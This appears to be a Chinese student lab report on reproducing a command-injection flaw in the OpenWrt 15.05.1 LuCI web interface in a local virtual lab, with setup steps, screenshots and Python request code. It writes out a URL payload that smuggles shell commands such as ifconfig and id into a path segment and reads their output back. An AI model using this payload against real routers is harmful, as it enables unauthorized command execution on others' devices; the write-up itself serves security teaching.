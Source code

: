 # 漏洞复现

## 实验内容
- 漏洞复现及利用
- 编写自动化漏洞利用代码

## 实验环境
- openwrt-15.05.1
- win10

## 实验过程
### 环境搭建
- 配置网络接口

![](img/配置网络.png)

- 修改openwrt的IP地址``` vi etc/config/network ```

![](img/修改IP.png)

- 有关Luci包的安装

![](img/USB标识信息.png)

![](img/驱动安装.png)

![](img/登录.png)

### 漏洞的复现
- 1.管理员账号登录luci
- 2.在``` stok=…… ```后添加``` /admin/status/realtime/bandwidth_status/eth0$(ifconfig%3ecmd.txt) ```即可触发漏洞

![](img/漏洞.png)
- 3.访问``` http://192.168.56.12/cmd.txt ```获取结果

![](img/result.png)

- 4.通过漏洞，获取id命令

![](img/id漏洞.png)

![](img/result2.png)

### 漏洞的利用
- 1.利用``` Copy as cURL (bash) ```
![](img/curl.png)

- 通过``` https://curl.trillworks.com/ ```将curl转为python request

![](img/python.png)

- 代码
```
import requests

cookies = {
    'sysauth': '050af866c8c8d270e1131305a3a72d14',
}

headers = {
    'Connection': 'keep-alive',
    'Pragma': 'no-cache',
    'Cache-Control': 'no-cache',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36',
    'Accept': '*/*',
    'Referer': 'http://192.168.56.12/cgi-bin/luci/;stok=c3d8f76b80fad73eea72c35204c0f4c2',
    'Accept-Language': 'zh-CN,zh;q=0.9',
}

params = (
    ('status', '1'),
    ('_', '0.850048633366346'),
)

response = requests.get('http://192.168.56.12/cgi-bin/luci/;stok=c3d8f76b80fad73eea72c35204c0f4c2', headers=headers, params=params, cookies=cookies, verify=False)
```

- 获取curl

![](img/luci-curl.png)

- 第三方网站得到python代码
```
import requests

headers = {
    'Connection': 'keep-alive',
    'Pragma': 'no-cache',
    'Cache-Control': 'no-cache',
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Referer': 'http://192.168.56.12/',
    'Accept-Language': 'zh-CN,zh;q=0.9',
}

response = requests.get('http://192.168.56.12/cgi-bin/luci', headers=headers, verify=False)
```

## 参考资料
* 1. - [课堂录屏](https://c4pr1c3.github.io/cuc-mis/chap0x04/cve-2019-12272.html)